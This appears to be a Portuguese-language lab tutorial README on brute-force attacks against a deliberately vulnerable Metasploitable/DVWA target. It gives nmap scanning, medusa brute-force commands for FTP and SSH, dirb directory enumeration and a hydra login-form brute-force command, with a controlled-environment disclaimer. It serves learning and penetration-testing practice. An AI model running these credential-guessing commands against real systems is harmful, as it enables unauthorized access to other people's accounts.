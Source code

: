 # Ataques de força bruta

Ataque de força bruta é uma tecnica de ciberataque que usa tentativa e erro para descobrir senhas chaves de criptografias ou credenciais de login tentando todas as combinações possiveis até encontrar a correta.
A eficiencia do ataque depende da complexidade da senha. 
Senhas muito complexas e muito grande se torna enviavel um ataque de força bruta.

Com isso, as melhores formas de se proteger contra ataques de força bruta é usar senhas fortes juntamente com um MFA. 

----------------------------------------------------------------------------------------------
### --ATENÇÃO--

`OS COMANDOS E TECNICAS APRESENTADOS AQUI SÃO REALIZADOS EM AMBIENTE CONTROLADO E VULNERAVEL PARA TESTES. QUALQUER TESTES REALIZADOS FORA DE UM CENARIO CONTROLADO É POR SUA CONTA E RISCO.`

----------------------------------------------------------------------------------------------

Usaremos  o sistema Metasploitable Para simular um ambiente em que faremos os ataques.

Simulando um ambiente real e vulnerável, suponhamos que de alguma forma através de alguma técnica descobrimos o IP do nosso alvo.

### SCANEANDO PORTAS E SERVIÇO USANDO O NMAP

Usaremos a ferramenta NMAP para reconhecer as portas e verificar os serviços rodando.

**INSTALAÇÃO**

`apt install nmap`

Usando o comando:

`nmap -sV [IP ALVO] > scan.txt`

Será feito o scan e o resultado salvo em um arquivo de texto com o nome scan.txt.

[Foto scan nmap]

Podemos verificar que ha vários serviços rodando e iremos realizar ataques em alguns deles como: ftp.


----


## INSTALANDO O MEDUSA

Caso não esteja usando o Kali linux ou alguma outra distribuição, pode obter com o seguinte comando:

`sudo apt install medusa`

para sistema MAC use o comando:

`brew install medusa`


**BRUTE FORCE FPT USANDO A FERRAMENTA MEDUSA**

Usando uma wordlist de usuarios e uma wordlist de senhas faremos o ataque no serviço FTP com o comando:

`medusa -h [IP DO ALVO] -U [WORDLIST USUARIOS] -P [WORDLIST SENHAS] -X [SERVIÇO] -t[QTD THEADS]`

Nesse cenário fizemos um brute force no serviço de FTP usando wordlists de usuários e senhas e 6 threads.

[foto ataque ftp medusa]

com o resultado de sucesso podemos testar e validar o acesso logando no serviço.

[foto login ftp]

----

**ATAQUE DE LOGIN SSH COM MEDUSA**

Para o brute force  ssh podemos usar o comando:

`medusa -h [IP ALVO] -M ssh -U [WORDLIST USERS] -P [WORDLIST ] -t 6`

[foto ataque ssh]

----

### ENUMERANDO DIRETORIOS

Para enumerar diretórios podemos usar qualquer ferramenta que automatize esse processo para termos mais agilidade.
usaremos o DIRB para enumerar mas tambem poderiamos usar o GOBUSTER

**INSTALANDO O DIRB**

`sudo apt install dirb`

**NSTALANDO O GOBUSTER**

`sudo apt install gobuster`

**ENUMERANDO DIRETÓRIOS COM O DIRB**

`dirb http://[IP DO ALVO]`

[foto enumeração dirb]

----

### ATAQUE DE LOGIN USANDO O HYDRA

Em nosso ambiente de ha uma pagina de login via formulário, faremos um brute force usando o HYDRA.

**INSTALAÇÃO DO HYDRA**

`sudo apt install hydra`

para tal cenário usaremos o comando:

`hydra [IP ALVO] -L [WORDLIST USER] -P [WORDLIST PASS] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"`

[foto ataque]

Validando o retorno do ataque:

[foto login dvwa]
